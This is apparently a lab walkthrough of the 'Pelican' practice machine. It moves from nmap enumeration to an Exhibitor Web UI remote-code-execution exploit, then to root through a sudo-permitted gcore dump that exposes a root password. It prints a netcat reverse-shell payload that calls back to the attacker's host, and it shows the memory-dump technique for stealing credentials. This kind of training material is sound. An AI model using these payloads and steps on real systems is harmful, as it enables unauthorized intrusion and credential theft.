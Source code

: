 # Pelican

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.98 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:56 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown
```

Ran a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,139,445,631,2181,222,8080,8081 -sC -sV --min-rate 4000 192.168.219.98
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:57 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).

PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
222/tcp  closed rsh-spx
445/tcp  open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
8080/tcp open   http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp open   http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.219.98:8080/exhibitor/v1/ui/index.html
```

There's a ZooKeeper software, but there aren't any exploits for it. Port 8081 had an Exhibitor software being used, and there are RCE exploits for this:

```
$ searchsploit exhibitor
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution             | java/webapps/48654.txt
----------------------------------------------------------- ---------------------------------
```

### Exhibitor RCE

The Exhibitor RCE is rather simple, and the Config tab looks rather vulnerable.&#x20;

<figure><img src="../../../.gitbook/assets/image (1803).png" alt=""><figcaption></figcaption></figure>

The `java.env` script part seems to be running `bash`. I downloaded the exploit found from `searchsploit`, and attempted their POC:

```
$(nc -e /bin/bash 192.168.45.182 4444)
```

<figure><img src="../../../.gitbook/assets/image (1343).png" alt=""><figcaption></figcaption></figure>

Afterwards, committing the changes would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3318).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Gcore --> Root Creds

The current user has some `sudo` privileges:

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

`gcore` is a program that is used to create core dumps of running processes, and since we can use `sudo` with it, we essentially can create these dumps of any processes. As such, let's enumerate what `root` is running:

```
charles@pelican:/opt/zookeeper$ ps -ef | grep root
<TRUNCATED>
root       510   459  0 22:53 ?        00:00:00 /bin/sh -c while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
avahi      522   456  0 22:53 ?        00:00:00 avahi-daemon: chroot helper
root       527     1  0 22:53 ?        00:00:00 /usr/bin/password-store
<TRUNCATED>
```

There's a `password-store` binary being run, which is essentially a password manager. We can create a core dump for this process:

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 527
0x00007f31c88806f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffe1091db0, remaining=remaining@entry=0x7fffe1091db0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.527
```

We can then use `strings` on the core dump file to find a password:

```
charles@pelican:/opt/zookeeper$ strings core.527
<TRUNCATED>
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
<TRUNCATED>
```

Using this password, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (1254).png" alt=""><figcaption></figcaption></figure>
